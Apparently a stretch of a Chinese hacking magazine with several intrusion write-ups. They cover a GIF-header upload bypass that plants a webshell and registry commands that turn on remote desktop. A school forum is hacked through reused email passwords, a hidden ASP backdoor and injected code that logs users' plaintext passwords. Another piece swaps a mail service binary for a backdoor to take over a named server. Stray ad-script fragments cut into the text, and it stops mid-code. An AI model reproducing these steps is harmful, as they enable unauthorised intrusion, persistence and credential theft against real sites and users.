那就先来实验下它的类型判断吧。先新建一个文本文件，里面写入“GIF89a？”，保存后改后缀为 GIF，然后上传，竟然成功了！再在这个文件下加一段 PHP 代码，如“<?php……?>”，再上传，又成功了！打开这个文件，在前面插入一句话，上传，失败。为什么连接 HTTP://WWW.……/123.GIF 这样已经写了一句话的 GIF 失败呢？好像 ASP 可以，PHP 难道机制不一样？疑惑啊！（编辑：asp 一样也不可以，除非是 IIS6.0 的那个 bug）。

现在该怎么办呢？再从上传文件的类型入手吧。难道它只是判断文件内容是否有如：“GIF89a？”这样的 GIF 文件头标志，而不判断文件后缀？来尝试一下吧，把 Windows 文档自带的几个图片改成 PHP 后缀，上传是成功的，证明我的猜想正确。兴趣一下起来了，再来传一张，突然出现如图 5 的提示，我当时真不敢相信这是真的！

还真有意思啊，不知道为什么出错了，还给我们一个 WEB 的物理路径（世界真是巧啊！）。现在知道了路径，赶紧“精心构造”一个含有 GIF 文件特征的 PHP 马吧！这回上传成功，一个只有上传功能的 PHP WEBSHELL 拿到手了，如图 6 所示。

好了，对 toidea 创易网的安全检测就到这里，不想再去提什么权限了。总结一下这回的情况，就是“三分技术，七分思考”，这次安全检测走了很多弯路，也遇到很多问题，希望大牛们多多指教我的不足。希望像我这样的工具狂或是代码级的大牛们都少黑站，多做安全检测。

小弟不才，一直有个问题想向大牛们请教：比如 Accounts 里用户密码是 40 位（听说有 40 位的 MD5）的加密，那是采用什么加密？能解吗？

编辑点评：

首先回答作者的问题，那个是 mysql 本身的加密函数加密的！另外，把一句话写入 GIF 文件，然后再连接的这种情况，在 php 下一般是 apache 服务器有可能成功，如果是 asp 的话，连接路径是 xx.asp/x.gif 形式才可以，这都是 web 服务器的缺陷或 bug 造成的。

# 利用注册表对终端进行操作

图 古典娃娃[中国蓝客联盟]

从本文你可以学习到

- DOS 和 MSSQL 下操作注册表的方法

我没有 webshell，就只能在 CMD 和查询分析器中演示了，其实和在 webshell 中是一样的。如果是 JSP 的 webshell，有系统权限那就更简单；或者可以直接执行 CMD 命令的话，也可以直接执行 Reg.exe 命令来修改注册表；如果有 SA 或 DBOWNER 的权限的话，那就需要 xp_cmdshell 或者 xp_regread 等一些扩展存储过程来修改了。总的来说，通过注册表操作终端根据 webshell 的权限不同有两种方法，第一种是直接使用 Reg.exe 命令来操作注册表，第二种是通过 MSSQL 中的扩展存储过程来操作注册表。

群里有位朋友说，他得到了某个站点的 webshell，也有了 admin 的用户名和密码，但是没有办法知道终端是否打开和它所开的端口。

如果它开了远程桌面而改了端口，我们可以通过命令 tasklist /svc 查看远程桌面进程的 PID 值，然后再用命令 netstat -ano 来查看它 PID 值所对应的端口就可以连接了。但是远程桌面根本就没有开，那我们该怎么办呢？其实可以通过注册表来偷偷修改它而不用重新启动系统，下面就跟着我来一起利用注册表操作终端吧。

## 一、先来介绍第一种方法：使用 Reg.exe 命令来操作注册表

这里先简单地介绍一下功能强大的 Reg.exe 命令：

- Reg.exe Query 读取注册表中的信息
- Reg.exe Add 添加或者修改注册表中的内容。可以使用 /? 来查询它所有的功能。在这里我们只需要它读和写注册表的功能就够了。

首先要明确 TermService 服务是自动启动、手动启动还是禁用，所以先要了解它在注册表中的位置和各种启动方式的表示。该服务的设置位置是在 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService 下的 Start 项，设置参数值如下：

- Start=dword:00000002，00000002 表示为自动启动
- Start=dword:00000003，00000003 表示为手动启动
- Start=dword:00000004，00000004 表示为禁用

我们先使用 reg.exe 来读取 TermService 的启动方式，命令为：reg.exe QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService" /v Start。这里我是禁用了远程连接的，所以显示为 0x4，如图 1 所示。

我们可以通过修改注册表的方法把启动方式修改为自动启动，如图 2 所示，输入命令：reg.exe add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService" /v start /t reg_dword /d 0x2。

运行命令不需要出现提示时，我们加上 /f 参数就可以直接覆盖，而不会询问是否要覆盖，命令如下，如图 3 所示：reg.exe add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService" /v start /t reg_dword /d 0x2 /f。

现在再到注册表中查看一下是否允许远程桌面连接，相关位置及参数值如下：

- HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer 下的 fDenyTSConnections 的值：
- fDenyTSConnections = dword:00000001 表示允许连接
- fDenyTSConnections = dword:00000002 表示不允许连接

使用 reg.exe 来查看是否允许远程连接，命令如图 4 所示：如果不允许连接的话，我们也可以修改它为允许连接，输入命令如下，如图 5 所示：reg.exe add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer" /v fDenyTSConnections /t Reg_dword /d 0x1 /f。

查看远程桌面连接的端口，命令为：reg.exe QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber，它的值如：PortNumber=dword:00000d3d，表示默认 3389 端口，这里需要使用到转换，d3d 为十六进制，把它转为 10 进制即可。如：d=13，13*16*16+3*16+13=3389，这就是正确的端口了。

我这里没有修改过端口，所以还是默认的 3389，我们也可以通过注册表来修改别人服务器上的远程端口，如图 6 所示。

## 二、再来介绍一下第二种方法：就是通过 MSSQL 中的扩展存储过程来操作注册表

其实相比第一种方法是差不多的，只是实现的方法有些区别而已，但是会遇到一些扩展存储过程的执行权限问题，这里只是作为一种思路来介绍。

我们是可以通过 xp_cmdshell 直接调用 Reg.exe 来修改注册表，如输入命令：xp_cmdshell "Reg.exe QUERY HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService /v Start"，但是默认需要 SA 的权限才可以执行，否则会提示“由于当前的安全上下文不是 sysadmin，并且未正确设置代理账户，执行 xp_cmdshell 失败。有关详细信息，请在联机丛书中搜索与 xp_sqlagent_proxy_account 相关的主题。”

另外，如果 xp_cmdshell 被删除了的话，以上方法自然也就用不了啦！但是还可以使用 xp_regread 等其他过程来修改注册表，就靠运气啦！先来简单介绍一下 MSSQL 中与操作注册表相关的扩展存储过程的使用方法。

- 1、xp_regenumvalues 以多个记录集方式返回所有键值  
  使用方法：xp_regenumvalues 注册表键，子键  
  如：xp_regenumvalues 'HKEY_LOCAL_MACHINE', 'SOFTWARE\Microsoft\Windows\CurrentVersion\Run'
- 2、xp_regread 返回指定键的值  
  使用方法：xp_regread 根键，子键，键值名  
  如：xp_regread 'HKEY_LOCAL_MACHINE', 'SOFTWARE\Microsoft\Windows\CurrentVersion', 'CommonFilesDir'
- 3、xp_regwrite 写入注册表  
  使用方法：xp_regwrite 根键，子键，键值名，值类型，值  
  如：xp_regwrite 'HKEY_LOCAL_MACHINE', 'SOFTWARE\Microsoft\Windows\CurrentVersion', 'TestValueName', 'reg_sz', 'hello'  
  注意值类型有 2 种：REG_SZ：表示字符串型。REG_DWORD：表示整型。
- 4、xp_regdeletevalue 删除某个值  
  使用方法：xp_regdeletevalue 根键，子键，值名  
  如：xp_regdeletevalue 'HKEY_LOCAL_MACHINE', 'SOFTWARE\Microsoft\Windows\CurrentVersion', 'TestValueName'
- 5、xp_regdeletekey 删除键，包括该键下所有值  
  xp_regdeletekey 'HKEY_LOCAL_MACHINE', 'SOFTWARE\Microsoft\Windows\CurrentVersion\Testkey'

好了，有了这些扩展存储过程，已经足够我们入侵的需要了。操作步骤如下：

- 1、先来看看是否有 3389 服务，命令如下，如图 7 所示：xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Services\TermService','Start'。

2、把启动方式改为自启动，命令如下，如图8所示：

图8

xp_regwrite 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Services\TermService','Start','reg_dword',00000002

图9

图10

图11

3、读取一下是否允许远程连接，命令如下，如图9所示：

xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections'

4、如果不允许远程连接，我们来更改一下，命令如下，如图10所示：

xp_regwrite 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','reg_dword',00000001。

5、最后来读取一下终端的端口，命令如下，如图11所示：

xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp','PortNumber'。

# 三、结尾

在入侵渗透的过程中，方法是有很多，只是我们的知识面还不够广，对系统里面的东西还不够熟练而已。这是我第一次写东西，只是为了认识更多的朋友，欢迎大家来 nohack 论坛讨论。

编辑点评：

这篇文章我几乎是重写了三分之一，因为作者的原文题目是通过利用注册表来提权，而且看原文的意思是在 webshell 里提权。但是通观整篇文章，也没有与提权相关的东西，其中操作注册表只是可以更改终端端口或它的服务方式，如果没有用户名和密码也是无用功。不过利用系统本身的命令来进行入侵是非常好的思路，虽然麻烦一点，但好处是手工可以完成，并且不用去找工具，也避开了杀毒软件这个障碍。NOHACK

本文的三个看点：社工猜邮箱密码；隐蔽式插马；登录密码截取。

第一次给《黑客手册》投稿，不免有点紧张，这篇文章从准备到完稿花了我3天时间，其间不停地修改润色，目的就是让读者读得明白、舒服。好，废话不多说了，Let's go!

最近学校办了一个论坛，并向每个宿舍广发传单，推广论坛。一时间论坛风风火火，小菜我也凑起了热闹，访问论坛，直接拉到底，看到版本信息如图1所示。Dvbbs 8.2.0，版本很新了，最近的 0day 不行。论坛刚建不久，默认数据库改了没有啊？马上访问 http://www.xxx.com/data/dvbbs8.mdb，如图2所示，哈哈，没改！

图1

图2

打开数据库，6个管理员的 md5 查出了两个，前台登录后，转后台，却发现备份页面被删除了！Dvbbs 8.2 拿 webshell 本来就麻烦，现在又没了备份，小菜我一时间没办法了。乱翻数据库，突然想到数据库里面还有 UserEmail 字段，又有思路了，如图3所示。

图3

我抱着试一试的念头用两个管理员的论坛密码登录他们的邮箱，结果成功了一个。出于好奇，我开始翻看他的邮件（我真没恶意啊，呵呵），这一看不要紧，居然让我翻到了论坛虚拟主机注册通知，里面 ftp 账号密码都有，太幸运了！如图4所示。

图4

赶紧 ftp 上去个免杀的 asp 大马，如图5所示。到此为止，社工猜邮箱密码阶段结束，后面更精彩！

图5

我们都知道，其实这样的大马迟早会被管理员发现或被杀软杀掉，如何更长久地进行控制呢？于是就有了下面介绍的隐蔽式插马。

隐蔽式插马就是将我们的 asp 木马插入到正常 asp 网页中去，并用特定的方式执行它。

隐蔽式插马格式如下：

```asp
<%if request("id")="ok" then%>
这里插入ASP小马的内容
<%end if%>
```

隐蔽式插马访问格式为：http://www.xxx.com/xxx.asp?id=ok'xxx.asp，注意：id 与 ok 要与上面插马格式中的相同，如图6所示。插马成功后的效果如图7所示。

图6

这样，论坛上就有了我的双马奔驰！果然不出我所料，几天后站长删除了我的大马，ftp 密码也改了，嘿嘿……幸好留了一手，隐蔽的小马他没发现。

图7

登录密码截取就是将我们截取密码的代码插入到像 login.asp、admin_login.asp 等登录页面中去，它的难点就是插入的位置。因为它的原理是趁页面中接收账号密码的变量还未清空时，赶紧将变量的内容保存（这是我的观点，有不对的地方请大家指正）。

既然管理员的邮箱这么重要，那其他四个用户的密码我也想要。下面是我根据小林的“小刺客 txt 版”代码更改优化后的截取登录密码代码：

```asp
dim FileObject
dim CountFile
dim out
CountFile=Server.MapPath("xxx.txt")
路径要隐蔽
Set FileObject=Server.CreateObject("Scripting.FileSystemObject")
建FSO对象
Set Out=FileObject.OpenTextFile(CountFile,8,TRUE)
文件
Out.Write("username:")
Out.Write(username)
相同
Out.Write("password:")
Out.Write(request("password"))
Out.Write(" IP:")
Out.Write(Dvbbs.UserTrueIP)
Out.Write(" LoginTime:")
Out.Writeline(now())
Out.Writeline(" ")
Out.close
```

经过多次尝试后，我将代码插到 login.asp 页面的 Dvbbs_ChkLogin 过程的后边，如图8所示，就等着用户来跳井了。

图8

第二天再访问 http://www.xxx.com/xxx/xxx/xxx.txt，效果如图9所示，已经获得4个用户名和密码。不管是谁登录，我的代码都会忠实地进行记录，而且密码还是明文的，呵呵！

总结：其实社工是要靠灵活的头脑和一定的运气的，就像这次入侵，从后台转到邮箱上来是要靠你的思路的。运气嘛没得说，没想到那位管理员就是站长，乖乖，他注册的虚拟主机有好多，账号密码我全收了，而且邮箱还是他校内网注册邮箱。用相同的用户密码再登录校内网，又成功了，他的个人信息我也掌握了（是一位师兄，呵呵）。

通过这次入侵我也学到了不少，完了我立马把自己邮箱里的老邮件彻底删除了。我开始感到其实邮箱密码比 QQ、MSN 等重要多了，因为它要接收各种有关你的信息，这对黑客来说可是巨大的宝库。好了，文章就到此吧，希望各位读者真能从里面学到点东西。

图9

> **编辑点评：**
> 虽然这篇文章技术含量不高，但是让我编辑得很舒服，因为作者是用心去写了。这种隐藏插马的方式其实我不推荐，因为这是很老的方法了，海阳顶端网 asp 木马 3.1 版就是这个办法（估计现在网上搜索不到了，因为是 2003 年的东西了）。我觉得更好的办法是插入一句话，而且插入接收密码的 asp 脚本我并不推荐将密码保存在本地，最好是只用 js 来窃取，并将接收的数据发送到另一个空间才是王道，可以参考以前“高手专栏”里跨站的文章。

# 小小跨站网中游

OrphousV

**从本文你可以学到：**
简单的 XSS 漏洞利用

最近在网上碰到了 funhoo 这家伙，他可是行踪不定，难得逮着，这种巧合千年一遇，于是跟他大聊了一通。他说他忙得要命，本来打算要写一篇关于 XSS 的文章，但是没有足够的时间，于是就把这事交给了我，让我写，我就只好越俎代庖了，接下来就有了你眼前的这篇文章。

首先我想说的是，这漏洞不是我发现的，而是 darkc0de 发现的，funhoo 参与了其中，后来告诉了我，因此我的功劳微乎其微，只是笔头上的功劳而已。

下面直接步入正题，漏洞是 XSS，出现在 XXXX 网站的一个搜索页面上，直接将搜索内容留空并提交，出现了搜索结果：“No matches were found for ''”，如图1所示。注意地址栏里的地址，可以看到是“http://XXX.XXX.XXXX.XXX/cgi-bin/htsearch?config=”。最后的“config=”格外抢眼，的确，许多问题都是从这儿开始的，而这些问题往往是因为参数检查不严而导致的。像 SQL 注入漏洞这样严重的问题，往往就是出现在这样的地方。

想到这里，我的光标便不由自主地移动到了那个等号的后面，在后面加上了“test”再回车，想看看有什么动静。没有报错，大概“test”没有违反规则。再试试“OrphousV”，果然报错了，如图2所示。看看源文件，代码如下：

```html
<html><head><title>htsearch error</title></head>
<body bgcolor="#ffffff">
<h1>ht://Dig error</h1>
<p>htsearch detected an error. Please report this to the webmaster of this site by sending an e-mail to:
<a href=mailto:boXXX@XXXXXX.XXX.XXX>bogus@unconfigured.htdig.user</a>
The error message is:</p>
<pre>
Unable to read configuration file '/usr/depot/sol7/htdig/3.2.0b6/conf/OrphousV.conf'
</pre>
</body></html>
```

可以看到，网页对参数没有什么过滤，但是会因无效参数而报错，这样就产生了 XSS 漏洞。在“config=”后加上“<script>alert('XSS')</script>”后提交，弹出了对话框，如图3所示。

本文没有继续利用下去，但是大家可以散发思维，比如错误页面中暴出了一串地址，也许在入侵中会有帮助，当然，我们也可以挂马，也可以用 XSS Shell（B/S 模式的木马，能实现些简单的功能）这款工具来达到额外的效果。至于选择哪一个利用方法，就看你怎么发挥了。

虽然这看上去只是个小漏洞，但是也说明了世上没有绝对的安全。一般人一听到“XXXX”这样的名字往往就会望而却步，但是这个漏洞又一次说明：只有想不到，没有做不到。想想 Kevin Mitnick，你也许就会明白其中所蕴藏的道理。

> **编辑点评：**
> 网络并没有绝对的安全，只有不断地提高安防知识才是比较保险的。好久没有看到过知名站出现的问题了，大家努力哦！记住：只安检，不黑站！

# 艰难入侵
## “中国被黑站点统计系统”

BloodSword @ 0kee&vtwo

**本文技术的三个重点：**
- mssql 的 cookie 注射
- mssql log 备份
- winwebmail 提权

前几天无事（其实一直都没啥鸟事），上网闲逛，进了一个站叫“中国被黑站点统计系统”，收录了 5W 多条黑页记录，看起来很强大的样子。突然心血来潮，想检测一下这个站点的安全性，经过一番努力，最后终于拿下了这个站点和整个服务器。过程中学到不少东西，入侵水平也有了提高，记录下来与大家分享。很多图是后来截的，可能跟过程有点小出入，不过总体上是一样的。

首先，这种网站本身一般是不大可能有注射点什么的，功能看起来也少得可怜，意思就是说，得旁注了！通过域名 IP 查一下，发现服务器上有 50 多个站，如图1所示。

当然，现在的虚拟主机都知道限制权限了，就算拿到旁站 shell，提权也不是容易的事。我的目标主要是想找个有权限的 mssql 注射点，这样就可以往目标网站备份了。扫一下端口，只开了 21 和 80，看来应该是有防火墙。废话少说，随便点开一个站的连接，如 http://fdc.macheng.net.cn/ShowNews.Asp?ID=3226，后面给它加个 and 1=1 再浏览，弹出个框框：参数错误。

根据我的经验，这种弹框的情况多半是采用了通用防注程序，很多时候是可以采用 cookie 注射的。cookie 注射大家都会吧，这里我就不多动了，太麻烦，我用自己写的一个 asp 版注射工具来搞。最终检测结果为 access 的数据库格式，又扫不到后台，放弃后继续下一个……一番挫折后进入一个连接 http://www.macheng.net.cn/ShowNews.Asp?ID=4190，加 and 1=1 后弹出框框。再在前面那个连接后面随便加两个字母，报错了，如图2所示。

Mssql 的哦！我立刻来了精神，操起工具就开干。确定可以 cookie 注射后，最简单的方法就是找到 zoneh 的目录直接往里面备份 php 马。当然，这得看运气了。先列目录吧！根据经验，虚拟主机的目录至少有 90% 的可能性不在 c 盘下，那就从 D 盘开始列吧。现成的语句我就不写了，网上随处可查。

（这里插句话：很遗憾，写文章的时候那个站的 shell 已经被发现了，sql 改了权限，建不了表，也就列不了目录了，所以没办法截图，我就凭借记忆描述一下吧。）

列出来 D 盘下有一个 WebHost 目录比较可疑，一直进入该目录，最后来到“D:\WebHost\AutoHost\wwwroot”。突然发现不对，服务器上明明有 50 多个站，而这个盘就这个目录而已，看来是假的。接着我再列 E 盘，最后确定 web 根目录为 E:\RuiHuoWeb\，里面有个目录叫 zoneh。进去后一看……空的！郁闷了！

换换其他站，列出来都是三个子目录：database、logfiles、wwwroot，看来 wwwroot 就是 web 路径。试着备份一下，提示成功，访问后却报“No input file specified”，什么意思啊？随便输一个不存在的名字 sdsd.php，还是报这个提示，看来是自定义的 404 报错信息，备份失败。

好吧，那就先通过注射点拿个 shell 再说。猜了好多天才猜对目录，汗死了……最后终于备份成功了一个小马，传上大马后进去了，如图3所示。

把 shell 拿给小帅看看，那小子进去就直接传个 php，然后告诉我无法解析。我点开一看，报错信息为 404，再传个 aspx 的，也是相同的结果，应该是作了什么特殊限制吧。后来发现删不掉了，估计这两个文件被人家发现了，汗……

另外，如我所料，权限限制得很死，除主目录外其它目录基本不能访问，Serv-U 等大众提权方式都不管用。翻查到了 sql 账号，连上 sql 列目录试试，如图4所示。

很奇怪，列其它目录正常，列 zoneh 的目录就出问题，看来空间商对这个站单独作了设置，不愧是黑客站啊。这样，我只好把黑手伸向空间商的网站，看看拿到空间商网站后权限会不会大点，说不定有个 sa 什么的在等我，嘿嘿……

图2

图3

图4

前面我们查到过 web 路径里有个 RuiHuoWeb 名称，那这个空间商的网站应该跟 RuiHuo 有关，在旁注查询返回的结果里找了半天，找到个 www.ruihuo.net，点开一看果然是空间商的站点。正好 web 根下有个 ruihuo 目录，列一下，全是 php 文件，但是那个站明明就是 asp 的啊？看来不是这个目录。

又找半天，没一个像的（汗……体力活啊）。这时突然想起前面的那个“D:\WebHost\AutoHost\wwwroot”地址，说不定空间商的网站就是那个。试着备份一个 shell 进去，果然……，如图5所示。

这回拿下了空间商的站点，很遗憾，里面没有 sa，竟然是 access 的库，权限跟其它站一样，限制得很死。看到一个 admin 目录，进去后原来是虚拟主机的控制后台，估计这个后台应该有点权限吧，于是把它的网站程序打包 down 下来。这时候已经很……

图5

晚了，睡先，明天再来研究……

第二天看了一下 admin 里面的文件，发现这个网站对服务器上的站点有很大的控制权限，于是登录后台……可是 md5 破不出来，怎么办？突然想到，都有 webshell 了还管什么密码啊，直接把验证的部分注释掉，这样就进后台了，如图 6 所示。


后台看起来很强大哦，还有注销和重启功能，不过 IIS 用户怎么可能有权限重启呢？看了下重启部分的代码，是这么写的：

```vb
ReturnValue = reboot(Trim(request.form("webip")), Port, Guid, "reboot")
```

看来他们自己改写了 vb 里面的系统函数库，但是重启是需要权限的，一定有一个系统账号用来完成这一操作。一般来说，这样的信息会写在两个地方：注册表或者配置文件。如果是注册表的话，因为不知道注册表路径，所以是不能直接用 asp 读取的，只要服务器支持 aspx，就可以用我自己写的注册表浏览器来浏览整个注册表了。因为根据我的经验，服务器一般都不太重视注册表安全，everyone 都可以浏览除了 sam 外的绝大部分注册表路径。

我们发现 C:\windows 目录能跳，里面有 .net 的目录，说明是装了 .net 的，只是没有在 IIS 里面把 aspx 支持开启。在“主机管理”里找到第一次进去的网站，进去后发现有修改支持脚本类型的选项，如图 7 所示。


直接把 net 和 php 加上，再次访问一下刚才的 aspxshell，还是 404 报错，估计是要等到 IIS 重启后才能生效吧。当然我们可以现在就直接重启系统，不过那样就不低调了，嘿嘿。再在“主机管理”里摸索，看到有修改 ftp 密码的地方，于是找到 zoneh 的站，直接把它的 ftp 密码改了，接着连 ftp，无法连接，看来也得等 Serv-U 重启后才能生效。

等到晚上夜深人静，我终于重启了服务器，过几分钟后网页能打开了，于是连上 ftp，成功登录！ls 一下，一个文件都没有！怎么可能！试着传一个呢？居然报错，说是无法写入。

ftp 写不了，这也太 BT 了吧，难道它从来都不需要更新程序什么的？可能是这个目录取消了 system 的权限，安全措施果然不是一般的 BT 啊，难道以前被人黑过？想起前面增加了 aspx 和 php 的解析，去试试生效了没有。一访问，还是 404 报错，郁闷……

| Files | 大小 | 修改时间 | 操作 |
| :--- | :--- | :--- | :--- |
| a.exe | 743.5K | 2008-7-18 21:08:08 | 编辑 - 复制到 - 移动到 - 重命名 - 下载 - 数据库 - 删除 |
| Buy.rtf | 7.5K | 2005-7-15 20:56:40 | 编辑 - 复制到 - 移动到 - 重命名 - 下载 - 数据库 - 删除 |
| cmd.exe | 272.75K | 2008-7-18 21:24:44 | 编辑 - 复制到 - 移动到 - 重命名 - 下载 - 数据库 - 删除 |
| domain.ini | 90B | 2008-6-19 8:46:02 | 编辑 - 复制到 - 移动到 - 重命名 - 下载 - 数据库 - 删除 |
| EasyMail.chm | 1.44M | 2008-4-14 19:40:08 | 编辑 - 复制到 - 移动到 - 重命名 - 下载 - 数据库 - 删除 |
| easymail.exe | 782.5K | 2006-4-14 19:05:20 | 编辑 - 复制到 - 移动到 - 重命名 - 下载 - 数据库 - 删除 |
| easymail1.exe | 782.5K | 2008-7-18 21:21:36 | 编辑 - 复制到 - 移动到 - 重命名 - 下载 - 数据库 - 删除 |
| easymail2.exe | 20K | 2008-7-18 21:26:25 | 编辑 - 复制到 - 移动到 - 重命名 - 下载 - 数据库 - 删除 |
| emsvr.exe | 64.5K | 2008-8-12 17:58:54 | 编辑 - 复制到 - 移动到 - 重命名 - 下载 - 数据库 - 删除 |

图 8

至此，入侵陷入僵局，思路彻底断掉了。我无聊地在 webshell 里面跳、跳、跳……跳到一个转折性的目录：C:\Documents and Settings\All Users\「开始」菜单\程序，发现里面有个 WinWebMail Server。隐约记得网上有关于 WinWebMail 提权的传说，说这个程序的目录必须是 everyone 可写的。虽然不大相信，也暂且一试吧。

把 WinWebMail 的快捷方式 down 下来，找到安装路径为 D:\Server\Mail\WinWebMail\easymail.exe。跳转 D:\Server，没权限，再跳 D:\Server\Mail\，进去了，嘿嘿……至少是可以读的。最后转到 D:\Server\Mail\WinWebMail，试着传个文件上去，终于 RP 爆发了……，如图 8 所示。

原来网上的传说是真的！OK，打起精神，来替换服务吧……网上下载了个 WinWebMail，装上后查看服务启动的进程为 emsvr.exe。先把服务器上的 emsvr.exe 改个名字，然后上传个后门，取名为 emsvr.exe。呵呵，幸好没被杀，我对此类可是一窍不通。直接重启服务器，几分钟之后，服务器上线，如图 9 所示。


现在有 system shell 就好办事了。连上去执行 cacls.exe E:\RuiHuoWeb\zoneh /E /T /G system:F，即把这个目录以及子目录和文件的所有权限赋予 system，返回信息如下：

```
处理的目录: E:\RuiHuoWeb\zoneh
处理的目录: E:\RuiHuoWeb\zoneh\database
处理的目录: E:\RuiHuoWeb\zoneh\logfiles
处理的目录: E:\RuiHuoWeb\zoneh\wwwroot
处理的文件: E:\RuiHuoWeb\zoneh\logfiles\W3SVC71262931
处理的目录: E:\RuiHuoWeb\zoneh\logfiles\W3SVC71262932
处理的目录: E:\RuiHuoWeb\zoneh\logfiles\W3SVC83154450
处理的文件: E:\RuiHuoWeb\zoneh\logfiles\W3SVC71262931\ex080315.log
处理的文件: E:\RuiHuoWeb\zoneh\logfiles\W3SVC71262932\ex080315.log
拒绝访问。
```

嗯，看来是所有权的问题，牵扯到 windows 的安全机制，一时半会说不清楚，看来 cacls 这个命令还是有缺陷的，如果能在图形界面下修改权限就好了，可是 ntshell 是不带龟壳的（众人：？？？我：图形用户界面，graphic user interface，简称 gui，你读一下，不念“龟”念什么？后面再加上 shell，合起来不就是“龟壳”？众人：……）。

我就不相信在 system 下会有做不到的事，别逼我占领 3389 哦！在 webshell 里查看，终端端口改成了 9419，连了一下连不上，但是 webshell 里扫本地端口是开放的，看来还是防火墙在作怪。没事，丢个 lcx 上去进行转发，嘿嘿……

先建好账号，本地输入 lcx -listen 8080 2000，服务器上输入 lcx.exe -slave xxx.xxx.xxx.xxx 8080 xxx.xxx.xxx.xxx 9419。然后再输入命令 mstsc 127.0.0.1:2000，千辛万苦之下，终于占领 3389 了，二话不说马上改权限，如图 10、图 11 所示。现在终于有写权限了，传个 phpspy 上去。


图 11

图 10

最后总结下，总的来说这个虚拟主机的安全性还是不错的，空间商也很有安全意识，唯一的两个漏洞在于 mssql 账号可以备份 webshell，和 winwebmail 目录可写。对于第二个问题，winwebmail 目录可写应该是有它的理由的。如果无法从权限上来限制，就最好给安装目录取个复杂的名字，同时删除快捷方式并设置注册表相应键值的权限，以免被人找到。

而第一个问题应该是普遍存在的。现在的虚拟主机空间商都越来越知道限制权限了，一般目录的权限设得很死，可是对于 mssql 的 logbackup 攻击方式还是没有引起足够的重视。这种攻击对 sql 账号权限要求不高，db_owner 足够了，一个 mssql 的注射点就可能导致服务器上所有站点的沦陷。网上关于 logbackup 备份来旁注攻击的文章也有不少了，可是我遇到的很多 mssql 注射点都是可以直接往任意目录备份的，除了某些网站删了存储过程，列不了目录，不过还是可以用其他方法取得 web 路径进行直接备份，希望各空间商引起重视。

# 编辑点评

看这篇文章，感觉作者真是一个实在而又幽默的人。作者用很口语化的文笔写了入侵经过，在入侵中注重了细节的查找收集，通过抽丝剥茧，最后图穷匕见。我借这个地方说一下，很多作者投稿，在文章里用的某些工具（像是自己专用的 aspwebshell 呀等等）都不会附给杂志。如果没有附，在我编辑的这个专栏里不会勉强，因为虽然是专用的，但是编辑过这么多文章，我看每个作者提到的专用工具的功能都一般般，网上类似的其它工具都是可以做到相同的事，所以不会影响读者的实践。读者们不必羡慕，也不要去理会什么专用工具，用好手头现成的就可以了。

alimama_titlecolor="0000FF";
alimama_descolor="000000";
alimama_bgcolor="FFFFFF";
alimama_bordercolor="E6E6E6";
alimama_linkcolor="008000";
alimama_bottomcolor="FFFFFF";
alimama_anglesize="0";
alimama_bgpic="0";
alimama_icon="0";
alimama_sizecode="22";
alimama_width=120;
alimama_height=240;
alimama_type=2;
</script>
<script src="http://a.alimama.cn/inf.js" type="text/javascript"></script>

图水账[B.S.N]&[B.U.P]

alimama_bordercolor="E6E6E6";
alimama_linkcolor="008000";
alimama_bottomcolor="FFFFFF";
alimama_anglesize="0";
alimama_bgpic="0";
alimama_icon="0";
alimama_sizecode="22";
alimama_width=120;
alimama_height=240;
alimama_type=2;
</script>

# 从本文你可以学到

- 简单的 js 挂马思路

这两天都在想着做网络买卖，于是陆续开通了自己的网上销售商店和网上广告销售商店后，就开始向阿里巴巴进军。在我使用阿里巴巴网商博客的时候发现，这个博客系统允许添加广告在标题处，可以看到“请在下框中添加阿里妈妈广告代码，垂直广告，图片尺寸为 120（宽）*240（高）”的字样。既然这样，我也就很快速地将自己博客里的广告代码加了进去，效果如图 1、2 所示。

原本事情到此就该结束的，此时一个 QQ 网友回复，要是用 JS 挂马那可危险。于是我突然想到，在阿里妈妈的广告代码里看到的就是利用 JS 调用，相关代码如下：

图 2

```javascript
<script type="text/JavaScript">
alimama_pid="mm_10768264_885486_1953253";
alimama_titlecolor="0000FF";
alimama_descolor="000000";
alimama_bgcolor="FFFFFF";
alimama_bordercolor="E6E6E6";
alimama_linkcolor="008000";
alimama_bottomcolor="FFFFFF";
alimama_anglesize="0";
alimama_bgpic="0";
alimama_icon="0";
alimama_sizecode="22";
alimama_width=120;
alimama_height=240;
alimama_type=2;
</script>
<script src="http://a.alimama.cn/inf.js" type="text/javascript"></script>
```

在最后的脚本语言中，正是调用了 inf.js 这个 js 文件。那么如果将 js 挂马的语句也加在最后，或是替换掉它的这个 inf.js，会不会出现 js 挂马的效果呢？有了猜测那就来试验下吧！先将它的 js 替换掉语句，代码如下：

图 1

```javascript
<script type="text/JavaScript">
alimama_pid="mm_10768264_885486_1953253";
alimama_titlecolor="0000FF";
alimama_descolor="000000";
alimama_bgcolor="FFFFFF";
alimama_bordercolor="E6E6E6";
alimama_linkcolor="008000";
alimama_bottomcolor="FFFFFF";
alimama_anglesize="0";
alimama_bgpic="0";
alimama_icon="0";
alimama_sizecode="22";
alimama_width=120;
alimama_height=240;
alimama_type=2;
</script>
<script src="http://www.54hssy.cn/beifen/alexa3.js" type="text/javascript"></script>
```

提交后返回错误如图 3 所示，看来网站的安全人员还是注意到了这点。


不能直接替换，那么就来增加一个吧！在原 js 调用的下一行增加一行我们自己的 js 调用，代码如下：

```javascript
<script type="text/JavaScript">
alimama_pid="mm_10768264_885486_1953253";
alimama_titlecolor="0000FF";
alimama_descolor="000000";
alimama_bgcolor="FFFFFF";
